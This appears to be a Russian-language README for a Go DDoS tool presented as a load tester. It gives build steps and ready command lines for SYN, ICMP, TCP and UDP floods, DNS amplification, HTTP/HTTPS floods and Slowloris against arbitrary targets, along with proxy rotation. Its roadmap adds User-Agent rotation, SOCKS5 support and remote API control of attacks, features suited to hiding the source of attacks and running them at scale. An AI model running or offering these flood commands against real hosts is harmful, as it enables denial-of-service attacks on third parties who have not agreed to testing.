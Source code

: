 # 🚀 Универсальный инструмент для нагрузочного тестирования (L3/L4/L7)

## 📋 Инструкция по использованию

### 🔧 Требования
- Установленный Go (версии 1.16+)
- Linux/Windows/MacOS
- Dоступ к интернету

### 📥 Установка
```bash
git clone https://github.com/yourrepo/stress-tool.git
cd stress-tool
go build -o stresser
```

### 🛠 Настройка

1. Создайте файл с прокси (если нужно):

```bash
echo "1.1.1.1:8080" > proxies.txt
echo "2.2.2.2:3128" >> proxies.txt
```

### 🎯 Запуск атак

#### 🔥 L3 Атаки (Сетевой уровень)
```bash
# SYN Flood
./stresser target.com:80 SYN 5000 60

# ICMP Flood (требует root)
sudo ./stresser target.com ICMP 3000 120
```

### 🌊 L4 Атаки (Транспортный уровень)

```
# TCP Flood
./stresser target.com:443 TCP 10000 300

# UDP Flood
./stresser target.com:53 UDP 8000 180

# DNS Amplification
./stresser dns-server.com DNS 5000 60
```

### 💻 L7 Атаки (Прикладной уровень)

```
# HTTP Flood
./stresser http://target.com HTTP 20000 600

# HTTPS Flood
./stresser https://target.com HTTPS 15000 300

# Slowloris
./stresser target.com:80 SLOWLORIS 500 3600
```

### 📊 Параметры запуска

```text
./stresser <цель> <тип атаки> <количество потоков> <время в секундах> [размер пакета]

Пример:
./stresser example.com:80 TCP 10000 60 1024
```

### 🧰 Дополнительные функции
```
1. **Автоповтор** - автоматически переподключается при обрывах
2. **Ротация прокси** - если указан файл proxies.txt
3. **Статистика в реальном времени** - показывает RPS и успешные запросы
```

### 🐞 Issues

1. Добавить поддержку WebSocket атак
2. Реализовать автоматическую проверку доступности цели перед атакой
3. Добавить вывод подробной статистики по каждому потоку
4. Поддержка IPv6 адресов
5. Реализовать возможность задания пользовательских HTTP-заголовков
6. Добавить логирование ошибок в отдельный файл
7. Поддержка SOCKS5 прокси
8. Реализовать автообновление списка прокси
9. Добавить возможность запуска нескольких атак одновременно
10. Реализовать API для удалённого управления атаками
11. Добавить тестирование производительности на разных ОС
12. Реализовать защиту от случайного запуска на localhost
13. Добавить поддержку пользовательских скриптов для L7 атак
14. Реализовать визуализацию статистики (графики)
15. Добавить возможность ограничения скорости (rate limit)
16. Реализовать автоматическую смену User-Agent
17. Добавить поддержку HTTP/2 атак
18. Реализовать интеграцию с Telegram для уведомлений
19. Добавить подробную документацию по каждому типу атаки
20. Реализовать модульные тесты для основных функций
